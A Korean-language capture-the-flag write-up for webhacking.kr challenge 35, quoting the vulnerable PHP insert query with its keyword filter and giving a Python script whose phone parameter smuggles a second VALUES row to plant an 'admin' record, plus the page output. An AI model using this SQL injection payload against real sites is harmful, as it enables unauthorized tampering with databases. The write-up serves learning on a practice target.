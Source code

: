 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

***


# **Description**

![](images/2022-01-03-12-06-48.png)


# **Write-Up**

view-source를 클릭하면 GET method로 phone과 id를 입력할 수 있고, id가 5글자 초과이면 안되니 query를 넣을 곳은 phone밖에 없어보인다.

```php
... 생략 ...
if($_GET['phone'] && $_GET['id']){
  if(preg_match("/\*|\/|=|select|-|#|;/i",$_GET['phone'])) exit("no hack");
  if(strlen($_GET['id']) > 5) exit("no hack");
  if(preg_match("/admin/i",$_GET['id'])) exit("you are not admin");
  mysqli_query($db,"insert into chall35(id,ip,phone) values('{$_GET['id']}','{$_SERVER['REMOTE_ADDR']}',{$_GET['phone']})") or die("query error");
  echo "Done<br>";
}

$isAdmin = mysqli_fetch_array(mysqli_query($db,"select ip from chall35 where id='admin' and ip='{$_SERVER['REMOTE_ADDR']}'"));
if($isAdmin['ip'] == $_SERVER['REMOTE_ADDR']){
  solve(35);
  mysqli_query($db,"delete from chall35");
}
... 생략 ...
```

ip는 자신의 공인 IP로 넣고, 괄호가 필터링이 아니기 때문에 쉽게 id가 admin인 데이터를 insert할 수 있다.

```python
import urllib.request

id          = 'a'
phone       = urllib.parse.quote('123), ("admin", "1.220.188.91", 123')

CHALLENGE   = 'https://webhacking.kr/challenge/web-17/'
SESSID      = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+ SESSID}

url         = CHALLENGE + '?id='+id+'&phone='+phone
request     = urllib.request.Request(url=url, headers=headers)
response    = urllib.request.urlopen(request)
result      = response.read().decode()
print(result)

[Output]
<html>
<head>
<title>Challenge 35</title>
<head>
<body>
<form method=get action=index.php>
phone : <input name=phone size=11 style=width:200px>
<input name=id type=hidden value=guest>
<input type=submit value='add'>
</form>
Done<br><script>alert('already solved');</script><!--
-->
<br><a href=?view_source=1>view-source</a>
</body>
</html>
```